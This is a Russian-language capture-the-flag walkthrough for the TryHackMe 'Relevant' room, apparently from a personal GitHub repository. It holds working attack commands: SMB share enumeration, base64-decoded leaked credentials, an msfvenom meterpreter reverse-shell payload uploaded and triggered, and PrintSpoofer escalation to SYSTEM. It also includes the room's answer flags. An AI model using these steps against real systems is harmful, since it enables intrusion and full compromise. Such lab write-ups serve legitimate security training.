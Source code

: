 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Relevant](https://tryhackme.com/r/room/relevant) 

Всего 1 заданиe:
## Задание 1
Вас направили к клиенту, который хочет провести тест на проникновение в среду, которая должна быть запущена в 
эксплуатацию через семь дней.

#### Объем работ

Клиент просит инженера провести оценку предоставленной виртуальной среды. Клиент попросил предоставить минимальную 
информацию об оценке, желая, чтобы взаимодействие проводилось с точки зрения злоумышленника (тест на проникновение 
черного ящика). Клиент попросил вас закрепить два флага (местоположение не указано) в качестве доказательства 
эксплуатации:
- Пользователь.txt
- Корень.txt


Кроме того, клиент предоставил следующие допуски по объему работ:
- В этом проекте разрешены любые инструменты и методы, однако мы просим вас сначала попробовать ручную эксплуатацию.
- Найдите и запишите все обнаруженные уязвимости.
- Отправьте обнаруженные флаги на панель управления
- В область действия входит только IP-адрес, назначенный вашему компьютеру.
- Найдите и сообщите обо ВСЕХ уязвимостях (да, существует более одного пути к получению прав root)
(Ролевая игра выключена)

Я призываю вас подойти к этой задаче как к реальному тесту на проникновение. Подумайте о написании отчета, 
включающего в себя резюме, оценку уязвимости и эксплуатации, а также предложения по исправлению, поскольку это 
принесет вам пользу при подготовке к eLearnSecurity Certified Professional Penetration Tester или карьере 
тестировщика на проникновение в этой области.   
Примечание. Ничто в этой комнате не требует Metasploit.

Для запуска всех служб машине может потребоваться до 5 минут.

**Заметки в этой комнате не принимаются.**

### Ответьте на вопросы ниже
Пользовательский флаг
```commandline
nmap -sC -sV -p- <IP>
smbclient //<IP>
smbclient //<IP>/nt4wrksv
get passwords.txt
cat passwords.txt 
echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d
# Bob - !P@$$W0rD!123
echo "QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk" | base64 -d
# Bill - Juw4nnaM4n420696969!$$$
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=<IP> lport=4444 -f aspx -o shell.aspx
put shell.aspx
msfconsole -q
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set lhost <IP>
set lport 4444
run
curl http://<IP>:49663/nt4wrksv/shell.aspx
cat c:/users/bob/desktop/user.txt
```
```commandline
THM{fdk4ka34vk346ksxfr21tg789ktf45}
```
Корневой флаг
```commandline
getprivs
cd \inetpub\wwwroot\nt4wrksv
PrintSpoofer.exe -i -c powershell.exe
cd \users\administrator\desktop
cat root.txt
```
```commandline
THM{1fk5kf469devly1gl320zafgl345pv}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)